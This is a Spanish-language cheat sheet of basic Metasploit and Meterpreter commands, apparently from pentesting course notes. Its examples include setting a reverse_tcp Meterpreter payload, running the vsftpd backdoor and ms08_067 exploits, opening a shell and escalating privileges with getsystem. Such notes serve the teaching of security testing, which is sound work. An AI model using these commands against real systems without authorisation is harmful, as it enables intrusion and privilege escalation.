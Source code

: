 # Metasploit - Comandos básicos

### <mark style="color:yellow;">Tabla de comandos básicos de Metasploit</mark>

| **Comando**                                       | **Uso**                                 | **Ejemplo**                                                                                                                                                      |
| ------------------------------------------------- | --------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `use [auxiliary/exploit/payload/encoder/evasion]` | Seleccionar un módulo específico        | `msf> use exploit/unix/ftp/vsftpd_234_backdoor`                                                                                                                  |
| `show [exploits/payloads/options/etc.]`           | Ver lista de módulos disponibles        | <p><code>msf> show payloads</code><br><code>msf> show options</code></p>                                                                                         |
| `set [opción/payload]`                            | Asignar valor a un parámetro específico | <p><code>msf> set payload windows/meterpreter/reverse_tcp</code><br><code>msf> set LHOST 192.168.10.118</code><br><code>msf> set RHOST 192.168.10.112</code></p> |
| `setg [opción/payload]`                           | Asignar valor global a un parámetro     | `msf> setg RHOST 192.168.10.112`                                                                                                                                 |
| `run`                                             | Ejecutar un módulo auxiliar             | `msf> run`                                                                                                                                                       |
| `exploit`                                         | Ejecutar un exploit                     | `msf> exploit`                                                                                                                                                   |
| `back`                                            | Salir del módulo actual y volver        | `msf(ms08_067_netapi)> back`                                                                                                                                     |
| `info`                                            | Ver información detallada de un módulo  | `msf> info exploit/windows/smb/ms08_067_netapi`                                                                                                                  |
| `search`                                          | Buscar un módulo específico             | `msf> search hfs`                                                                                                                                                |
| `check`                                           | Verificar si el objetivo es vulnerable  | `msf> check`                                                                                                                                                     |
| `sessions`                                        | Listar sesiones activas                 | `msf> sessions [número]`                                                                                                                                         |

### <mark style="color:yellow;">Comandos básicos de Meterpreter(se verá más adelante)</mark>

| **Comando**             | **Uso**                                      | **Ejemplo**               |
| ----------------------- | -------------------------------------------- | ------------------------- |
| `sysinfo`               | Obtener información del sistema comprometido | `meterpreter> sysinfo`    |
| `ifconfig` / `ipconfig` | Listar interfaces de red                     | `meterpreter> ifconfig`   |
| `arp`                   | Ver IPs y MACs conectadas al objetivo        | `meterpreter> arp`        |
| `background`            | Enviar sesión activa a segundo plano         | `meterpreter> background` |
| `shell`                 | Abrir shell de comandos                      | `meterpreter> shell`      |
| `getuid`                | Obtener nombre de usuario actual             | `meterpreter> getuid`     |
| `getsystem`             | Escalar privilegios a SYSTEM                 | `meterpreter> getsystem`  |
| `getpid`                | Obtener el PID del proceso de Meterpreter    | `meterpreter> getpid`     |
| `ps`                    | Listar todos los procesos activos            | `meterpreter> ps`         |
